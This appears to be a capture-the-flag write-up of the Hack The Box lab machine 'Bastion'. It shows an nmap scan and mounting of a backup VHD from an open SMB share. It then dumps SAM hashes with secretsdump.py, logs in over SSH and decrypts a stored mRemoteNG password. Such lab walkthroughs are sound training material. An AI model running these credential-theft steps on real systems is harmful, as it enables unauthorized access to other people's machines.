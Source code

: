 ```yaml
---
title: "Bastion - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Bastion
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
---
```


## Bastion
![](https://kar0nx.github.io/assets/images/writeup/68c7186b753828391c67c4f737f5400f.webp)
 
## Reconnaissance

IP: 10.10.10.134
### NMAP

```
nmap -T4 -p- -A 10.10.10.134
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-23 15:20 EDT
Stats: 0:01:49 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 7.69% done; ETC: 15:23 (0:01:12 remaining)
Stats: 0:02:00 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 46.15% done; ETC: 15:23 (0:00:19 remaining)
Stats: 0:02:37 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 46.15% done; ETC: 15:24 (0:01:03 remaining)
Stats: 0:02:49 elapsed; 0 hosts completed (1 up), 1 undergoing Traceroute
Traceroute Timing: About 32.26% done; ETC: 15:23 (0:00:00 remaining)
Nmap scan report for 10.10.10.134
Host is up (0.034s latency).
Not shown: 65522 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=3/23%OT=22%CT=1%CU=33639%PV=Y%DS=2%DC=T%G=Y%TM=67E0
OS:5FC6%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=109%TI=I%CI=I%II=I%SS=S%
OS:TS=A)SEQ(SP=FA%GCD=1%ISR=FE%TI=I%CI=I%II=I%SS=S%TS=A)OPS(O1=M53CNW8ST11%
OS:O2=M53CNW8ST11%O3=M53CNW8NNT11%O4=M53CNW8ST11%O5=M53CNW8ST11%O6=M53CST11
OS:)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)ECN(R=N)ECN(R=Y%DF=
OS:Y%T=80%W=2000%O=M53CNW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q
OS:=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%
OS:T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD
OS:=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%R
OS:UD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -20m53s, deviation: 34m35s, median: -55s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-03-23T20:22:51+01:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2025-03-23T19:22:50
|_  start_date: 2025-03-23T19:17:46

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   34.24 ms 10.10.14.1
2   34.52 ms 10.10.10.134

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 179.56 seconds
```

## SMB

```
smbclient -L //10.10.10.134
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250323202658.png)

```
cat note.txt

Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
```

https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25

https://medium.com/@kartik.sharma522/mounting-bit-locker-encrypted-vhd-files-in-linux-4b3f543251f0   ---- for encrypted 

```
mkdir /mnt/remote

mount -t cifs //10.10.10.134/Backups /mnt/remote -o rw

mkdir /mnt/vhd

guestmount --add /mnt/remote/WindowsImageBackup/L4mpje-PC/'Backup 2019-02-22 124351'/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd -v  
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250323210628.png)

looking for credentials ssh logins etc

```
/mnt/vhd/Windows/System32/config/
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250323210847.png)

```
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250323211331.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250323211512.png)

```
ssh L4mpje@10.10.10.134 
```

```
l4mpje@BASTION C:\Users\L4mpje\Desktop>type user.txt  
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250323212806.png)

https://github.com/haseebT/mRemoteNG-Decrypt

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250323213707.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250323213901.png)

```
python3 mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250323214520.png)

```
cd Desktop
type root.txt
```